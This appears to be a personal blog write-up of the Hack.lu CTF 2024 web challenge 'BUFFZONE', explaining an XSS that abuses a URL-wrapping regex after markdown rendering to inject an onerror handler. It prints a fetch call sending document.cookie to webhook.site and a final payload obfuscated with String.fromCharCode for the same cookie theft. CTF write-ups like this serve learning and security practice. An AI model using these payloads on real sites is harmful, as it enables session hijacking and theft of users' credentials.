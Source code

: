 ```yaml
---
title: "Hack.lu CTF 2024: BUFFZONE"
date: 2024-12-11T14:06:00+08:00
---
```


ik this is like 1 month ago but i was busy with working on udg2 april fools so here we are\
this was the most solved chall but i spent an embarrasingly long time solving it\
guess i have a massive skill issue

# challenge
![starting page](/images/buffzone1.png)
we're presented with a textbox input here, which will display a message on the page when it's submitted, along with a button that shares our message with the admin bot\
![message display](/images/buffzone2.png)
the admin bot carries a flag cookie on its visit, so i figured i need to make the bot send the cookie to us somehow

# analyzing
before rendering our message, the website filters it first:
```js
function replaceUrls(text) {
    let regex = /(https:\/\/.*?)\s/gi;
    let replacedText = text.replace(regex, '<a href="$1">$1</a>');
    return replacedText;
}
// ...
app.get("/buffzone", (req, res) => {
    let message = req.query.message;
    if (message) {
        res.render("buffzone", { message: replaceUrls(md.render("**" + message + "**")) })
    }
    else {
        res.redirect("/")
    }
});
```
our message is first rendered as a bold text in markdown, then the urls made into a hyperlink tag if there's any\
finding a vulnerability on markdown-it seems impossible (i only realized that hours in) so our focus is likely replaceUrls function

# solving
after messing around i realized that our message is put into the tag without any changes\
this means we can inject onerror by `https://"onerror=alert(1)"`! :clueless:
![wrong answer](/images/buffzone3.png)
nope\
checking backend, the markdown might've turned our quotation mark into character entities. aw
```html
2024-12-13 10:16:34 Received: <p><strong>https://&quot;onerror=alert(1)&quot;</strong></p>
2024-12-13 10:16:34 Replaced: <p><strong><a href="https://&quot;onerror=alert(1)&quot;</strong></p>">https://&quot;onerror=alert(1)&quot;</strong></p></a>
```
so we need to find a way to inject without sending double quotations\
after googling, i decided to try hyperlinks: `![](https://onerror=alert(document.domain)/)`
![alert](/images/buffzone4.png)
whats up localhost\
since markdown renders our hyperlink as an img tag, which has a quotation mark in itself (src="")\
the replaceUrls function will close the src attribute, letting us inject onerror\
we can confirm this on the backend:
```html
2024-12-13 10:26:30 Received: <p><strong><img src="https://onerror=alert(document.domain)/" alt=""></strong></p>
2024-12-13 10:26:30 Replaced: <p><strong><img src="<a href="https://onerror=alert(document.domain)/"">https://onerror=alert(document.domain)/"</a>alt=""></strong></p>
```
now we just have to make the bot send the cookie!

# payload
i used webhook.site as a request receiver:
```js
fetch('https://webhook.site/insert-id-here-brah/?c=' + document.cookie)
```
however don't forget the server will replace the https link\
so during ctf i converted the whole thing to numbers, then used String.fromCharCode\
this was my final payload:
```
![](https://onerror=fetch(String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,100,50,49,100,53,97,49,51,45,51,48,100,56,45,52,101,51,100,45,56,101,98,54,45,49,101,101,49,53,97,55,56,98,48,54,100,47,63,99,61).concat(document.cookie))/)
```
and we should get our flag!...
![](/images/buffzone5.png)
if only i had remembered it. u'll have 2 trust me on this one\
anyways this chall was fun and also broke my 0 solve streak a month ago . happy fortune